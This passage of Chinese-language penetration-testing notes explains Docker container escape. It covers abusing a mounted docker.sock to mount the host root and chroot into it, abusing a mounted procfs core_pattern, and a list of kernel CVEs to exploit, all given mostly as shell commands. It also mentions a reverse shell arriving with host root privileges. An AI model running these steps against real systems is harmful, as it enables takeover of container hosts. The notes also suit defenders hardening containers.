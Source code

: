 一分钟后，就能收到反弹回来的会话了，而且会话权限是宿主机 root 用户权限。

### 挂载逃逸
建一个容器并挂载 /var/run/docker/sock 文件

```
docker run -itd --name with_docker_sock -v /var/run/docker.sock:/var/run/docker.sock ubuntu
```

在容器内安装 Docker 命令行客户端

```
docker exec -it with_docker_sock /bin/bash
apt-get update
apt-get install curl
curl -fsSL https://get.docker.com/ | sh
```
检测

```
ls -lah /var/run/docker.sock
```

如果存在这个文件，说明漏洞可能存在
将宿主机目录挂载到新容器
```
docker run -it -v /:/host ubuntu /bin/bash
```
在新的容器内执行 chroot，将根目录切换到挂载到宿主机的根目录，其实不挂载也行
chroot /host

###  挂载宿主机procfs逃逸
procfs是一个伪文件系统，它动态反映着系统内进程及其他组件的状态，其中有许多十分敏感重要的文件。因此，将宿主机的procfs挂载到不受控的容器中也是十分危险的，尤其是在该容器内默认启用root权限，且没有开启User Namespace时。
Docker默认情况下不会为容器开启 User Namespace
从 2.6.19 内核版本开始，Linux 支持在 /proc/sys/kernel/core_pattern 中使用新语法。如果该文件中的首个字符是管道符 | ，那么该行的剩余内容将被当作用户空间程序或脚本解释并执行。
一般情况下不会将宿主机的 procfs 挂载到容器中，然而有些业务为了实现某些特殊需要，还是会有这种情况发生

创建一个容器并挂载 /proc 目录

```
docker run -it -v /proc/sys/kernel/core_pattern:/host/proc/sys/kernel/core_pattern ubuntu
```
如果找到两个 core_pattern 文件，那可能就是挂载了宿主机的 procfs

```
find / -name core_patter
```
具体攻击利用参考云安全文档

### docker漏洞逃逸
顾名思义，利用docker本身的漏洞去逃逸
常用```
CVE-2016-5195 CVE-2019-16884 CVE-2021-3493
CVE-2021-22555 CVE-2022-0492 CVE-2022-0847 CVE-2022-23222
注意各个版本的不用漏洞，根据实际选择利用手段，首先确定docker版本，然后确定版本有无漏洞
